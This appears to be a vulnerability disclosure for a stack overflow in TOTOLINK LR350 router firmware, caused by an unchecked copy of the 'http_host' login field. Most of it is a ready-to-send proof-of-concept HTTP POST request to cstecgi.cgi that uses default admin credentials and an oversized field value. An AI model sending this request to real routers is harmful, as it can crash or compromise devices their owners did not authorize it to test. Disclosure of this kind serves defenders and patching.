 # TOTOLINK LR350 V9.3.5u.6369_B20220309 Stack Overflow

### Product Information

Product: TOTOLINK LR350 Firmware Version: V9.3.5u.6369_B20220309 Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/231/ids/36.html)

### Analysis

![image-20240523220326496](/image-20240523220326496.png)

As shown in the figure, if the content of the "http_host" field is not empty, it will be copied onto the stack without checking the length, which can lead to a stack overflow vulnerability.

### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 449
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/login.html

{"username":"admin","password":"admin","http_host":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","verify":"0","flag":"0","topicurl":"loginAuth"}
```

